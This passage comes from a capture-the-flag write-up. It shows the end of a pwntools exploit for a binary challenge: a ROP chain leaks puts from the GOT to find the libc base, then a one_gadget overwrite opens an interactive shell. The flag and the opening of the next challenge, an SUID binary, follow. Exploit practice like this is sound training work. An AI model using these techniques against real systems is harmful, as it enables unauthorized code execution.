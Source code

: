 ```py

payload += p64(new_ebp)
payload += p64(pop_rdi)
payload += p64(puts_got_plt)
payload += p64(call_puts)
payload += p64(new_ebp+0x1000)
payload += p64(vuln_function)

"""
context.terminal = ['tmux','splitw','-h']
gdb.attach(sh, '''
break *0x4008ea
continue
''')
"""

sh.sendline(payload)

r = sh.recvuntil(b'\x7f')
puts_libc_leak = int(r[-6:][::-1].hex(),16)
print("Puts leak:", hex(puts_libc_leak))

puts_libc = 0x80970 # 0x84450
libc_base = puts_libc_leak - puts_libc

print("Libc base:", hex(libc_base))

one_gadget = libc_base + 0x4f302 # 0xe3b2e

ret = 0x400616
big_pop = 0x4020cc

payload = b''
payload += b'\x00' * (OFFSET_STACK - len(payload) - 8)
payload += p64(new_ebp)
payload += p64(one_gadget)
payload += b'\x00' * 100

sh.sendline(payload)

sh.interactive()
```

**ACS_IXIA_CTF{you_wanna_piece_of_me}**

<a name="onlyawayout"></a>
## Only a Way Out (100) - Exploit

We're given ssh credentials to login into a server. On there there is a binary with SUID permissions called `only_a_way_out`, we need to exploit this binary to get the flag. 

